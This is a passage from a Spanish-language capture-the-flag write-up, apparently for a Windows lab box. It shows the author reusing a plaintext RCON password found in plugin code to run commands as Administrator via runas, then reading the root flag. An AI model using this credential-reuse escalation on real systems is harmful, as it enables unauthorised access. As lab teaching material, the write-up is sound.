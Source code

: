 ¡Una contraseña de texto plano para el RCON! Si lo intentamos en el sistema de vuelta no parece funcionar para el usuario actual, pero para el Administrador

```powershell
PS C:\users\svc_minecraft\server\plugins> runas /user:Administrator whoami
Enter the password for Administrator: 
Attempting to start whoami as user "CRAFTY\Administrator"
```

A partir de aquí podemos usar RunasCs o las runas por defecto de Windows para ejecutar comandos, yo me decantaré por la segunda. Después de enviarnos una consola obviamente ya seremos administradores.

```powershell
PS C:\Windows\system32> whoami
crafty\administrator
```

Así que ahora podemos tomar la última bandera.

```powershell
PS C:\Windows\system32> cd ~ 
PS C:\Users\Administrator> cd Desktop 
PS C:\Users\Administrator\Desktop> dir 


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/17/2024   3:02 AM             34 root.txt
```

```powershell
PS C:\Users\Administrator\Desktop> type root.txt 
7ca657db95d7e1ef6da65ac41b******
```
